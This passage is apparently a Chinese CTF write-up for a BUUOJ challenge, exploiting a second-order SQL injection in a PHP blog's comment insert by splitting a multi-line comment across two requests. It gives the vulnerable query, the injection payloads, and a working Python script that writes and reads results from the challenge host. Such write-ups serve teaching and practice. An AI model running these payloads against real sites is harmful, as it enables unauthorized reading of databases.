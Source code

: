 这里比较坑的点在于 comment 时的 sql

```php
$sql = "insert into comment
        set category = '$category',
            content = '$content',
            bo_id = '$bo_id'";
```

因为是多行, 所以注释要用 `/**/`, 而且单行注释仅能注释该行后面的内容, 对于下一行是没有影响的

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201442568.png)

write 时构造 payload

```sql
category=1',content=(select user()),/*
```

comment 时构造 payload

```sql
content=*/#
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201446302.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201446023.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201446089.png)

然后组合成 python 脚本

```python
import requests
import re

cookies = {
    'PHPSESSID': 'rd6h57gjrcu2pi6ujp1k4g7uc6'
}

def post(sql):
    data = {
    'title': '123',
    'category': "1',content=(" + sql + "), /*",
    'content': '123'
    }
    _ = requests.post('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/write_do.php?do=write',data=data, cookies=cookies)

def getid():
    res = requests.get('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/', cookies=cookies)
    id_list = re.findall('value=\'(.*)\'', res.text)
    return id_list[-1]


def comment(bo_id):
    data = {
    'content': '*/#',
    'bo_id': bo_id
    }
    _ = requests.post('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/write_do.php?do=comment',data=data, cookies=cookies)
    res = requests.get('http://7017a807-8655-4192-856c-4a8b3638f244.node4.buuoj.cn:81/comment.php?id=' + bo_id, cookies=cookies)
    res.encoding = "utf-8"
    print(re.findall(r'留言<\/label><div class="col-sm-5"><p>([\s\S]*)<\/p><\/div>', res.text)[0])
```